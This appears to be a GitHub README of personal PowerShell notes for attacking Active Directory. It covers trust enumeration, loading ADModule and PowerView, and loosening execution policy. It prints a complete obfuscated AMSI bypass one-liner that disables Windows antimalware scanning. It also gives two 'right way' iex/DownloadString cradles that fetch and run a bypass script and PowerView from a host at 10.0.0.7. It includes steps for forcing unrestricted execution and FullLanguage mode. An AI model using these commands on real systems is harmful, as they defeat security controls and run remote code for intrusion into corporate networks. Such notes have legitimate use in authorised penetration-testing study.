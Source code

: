 # PowershellPlays

&nbsp; Playing around with Powershell and ADModule

&nbsp;  

## Domain Forest Trust enumeration using .NET classes

1. Run as a domain member on the workstation  

2. To get information regarding forest for the current domain:  
`[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()`  
&nbsp;&nbsp;&nbsp;&nbsp;- *'GlobalCatalogs' can be appended to get global catalog*  
&nbsp;&nbsp;&nbsp;&nbsp;- *'Forest' can be replaced with 'Domain' to get domain info*  
&nbsp;&nbsp;&nbsp;&nbsp;- *The previous replacement and appending 'GetAllTrustRelationships()' gives trust relaitonship info for the domain*  

3. Declaring / setting the vbl $ForestRootDomain:  
`$ForestRootDomain = '<>'`  

4. To get information regarding forest for the current domain:  
`([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', $ForestRootDomain)))).GetAllTrustRelationships()`

&nbsp;  

## AMSI Bypass

1. Source 1: [reigningshells/powershell-bypasses.ps1](https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560)  
&nbsp;&nbsp;&nbsp;&nbsp;- *This bypass works*  

2. Test that `amsiinitfailed`, `amsiutils`, `invoke-mimikatz`, etc returns that it isn't the name of a cmdlet, function, etc  

3. Test BURNED bypass: ``sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )``  
&nbsp;&nbsp;&nbsp;&nbsp;- *It should have no return output*  

4. Right way to bypass: `iex (New-Object New.WebClient).DownloadString("https://10.0.0.7/amsi/bypass.ps1")`  

5. Source 2: [S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  

6. Source 3: [0gtweet - powershell.exe params](https://twitter.com/0gtweet/status/1281103918693482496)

&nbsp;  

## TLS version

1. To enumerate 'systemdefault' to see what's supported:  
`[enum]::getvalues('net.securityprotocoltype')`  

2. To set to TLS1.2 (or greater):  
`[Net.ServicePointmanager]::SecurityProtocol = 'Tls12'`  
&nbsp;&nbsp;&nbsp;&nbsp;- *can replace 'Tls12' with a greater version*  

&nbsp;  

## ADModule

1. Clone or download ADModule: [samratashok/ADModule](https://github.com/samratashok/ADModule)  
&nbsp;&nbsp;&nbsp;&nbsp;- *can also just download the 2 needed files*  

2. `Import-Module \<absolute or relative path>\Microsoft.ActiveDirectory.Management.dll -Verbose`  

3. `Import-Module \<absolute or relative path>\ActiveDirectory\ActiveDirectory.psd1 -Verbose`  
&nbsp;&nbsp;&nbsp;&nbsp;- *If the execution policy fails, do `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then do step 2 onward*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Can also do `Unblock-File <file_path>`*  

4. `Get-Command -Module ActiveDirectory` *won't work* and `Get-ADDomain` *will work*  
&nbsp;  
5. `iwr -Uri "https://github.com/samratashok/admodule/archive/master.zip" -Outfile ADModule.zip` or download zip  

6. `Expand-archive .\ADModule.zip`  

7. `cd .\ADModule-master\ActiveDirectory`  

8. `Import-Module .\ActiveDirectory.psd1`  

9. `Get-Command -Module ActiveDirectory` should work now  

&nbsp;  

## Execution Policy and Execution Context  

1. `Get-ExecutionPolicy -list`  
&nbsp;&nbsp;&nbsp;&nbsp;- *make sure only unrestricted for CurrentUser and LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *`Set-ExecutionPolicy -Scope <scope_name> -ExecutionPolicy Unrestricted` where <scope_name> can be CurrentUser or LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *Source: [ways to bypass powershell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)*

2. `$ExecutionContext.SessionState`  
&nbsp;&nbsp;&nbsp;&nbsp;- *Make sure LanguageMode is FullLanguage or do `-set $ExecutionContext.SessionState.LanguageMode = "FullLanguage"`*  

&nbsp;  

## Get PowerView  

1. New PowerView: [PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)  
&nbsp;&nbsp;&nbsp;&nbsp;- *Download zip, or git clone, or copy/paste in `notepad.exe PowerView.ps1` or by `iwr -Uri "https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon/PowerView.ps1" -Outfile PowerView.ps1`*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Right way to download: `iex (New-Object New.WebClient).DownloadString("https:10.0.0.7/powersploit/PowerSploit-master/Recon/PowerView.ps1")`*  

2. `Import-Module .\PowerView.ps1`  

&nbsp;  

## PowerView  

1. Using PowerView tips: [HarmJ0y/Cheatsheets](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf) and [BSidesCharm-PowershellSecurity](https://adsecurity.org/wp-content/uploads/2016/05/BSidesCharm-2016-PowerShellSecurity-Defending-the-Enterprise-from-the-Latest-Attack-Platform-FINAL.pdf)

&nbsp;  
